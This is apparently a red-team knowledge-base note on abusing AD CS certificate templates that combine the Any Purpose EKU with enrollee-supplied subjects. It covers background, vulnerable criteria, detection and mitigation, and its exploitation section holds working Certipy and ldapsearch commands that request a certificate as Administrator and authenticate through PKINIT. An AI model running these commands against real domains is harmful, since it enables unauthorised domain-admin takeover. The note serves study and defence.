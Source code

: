 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- Certificate template misconfiguration.
- Template allows:
	- requester to supply own subject (e.g. [[ESC1]]) and
	- contains `Any Purpose EKU` (2.5.29.37.0) - signals the cert can be used for any type of authentication.
# Background

- Normal certs defined a specific EKU for a task:
	- `Client Authentication` - used to log on via [[PKINIT authentication|PKINIT]]
	- `Smart Card Logon` - also used for [[Kerberos]]
	- `Server Authentication` - for TLS/LDAP server certs
- `Any Purpose EKU` is:
	- a special EKU that means it is valid for all EKU types.
- If cert chains to a trusted CA, AD does not care what is done with it.
- If cert templates allows custom SAN or Subject field:
	- you can request cert for Administrator.
	- and logon via PKINIT, even if no explicit ClientAuth EKU.
# Vulnerable Criteria

- Template is vulnerable if it has:
	- `ENROLLE_SUPPLIES_SUBJECT` enabled.
	- `EKU` includes `Any Purpose`.
	- You have enrol rights.
	- CA is actively issuing certs.
# Exploitation

- Use [[Certipy]] or [[Ldapsearch]]to enumerate:
	- `certipy find -u user@domain.local -p 'Pass123!' -dc-ip 10.0.0.5 -vulnerable`
		- look for `EKU: Any Purpose` or `ENROLLE_SUPPLIES_SUBJECT: True`
	- `ldapsearch -x -b "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" "(|(msPKI-Certificate-Name-Flag=1)(msPKI-Extended-Key-Usage=2.5.29.37.0))" `
- Request cert impersonating an admin:
	- `certipy req -u user@domain.local -p 'Pass123!' -template VulnAnyPurpose -ca CA01\corp-CA -upn Administrator@domain.local -dc-ip 10.0.0.5 -output esc5`
- Authenticate:
	- `certipy auth -pfx esc5.pfx -dc-ip 10.0.0.5`
	- `gettgtpkinit.py -pfx esc5.pfx domain.local\administrator`
# Detection

- `Event ID 4886/4887` - watch for certs issued with:
	- `SubjectAltName` = admin accounts
	- `EKU = Any Purpose`
- Monitor for [[AS-REQ (Authentication Request)|AS-REQs]] using certs from low priv accounts with mismatched subject fields.
- Diff template config over time.
# Mitigation

- Avoid using Any Purpose EKU on templates allowing:
	- User-supplied subjects
	- Broad enrollment permissions
- Audit existing templates:
	- Dump all template EKUs:
		- `certipy find -vulnerable -u user@domain -p pass -dc-ip <ip>`
		- `Get-CertificateTemplate | Select-Object -ExpandProperty EKU`
- Remove `ENROLLE_SUPPLIES_SUBJECT` or set to `Build from AD information`.
- Require manager approval or use restricted groups for enrollment.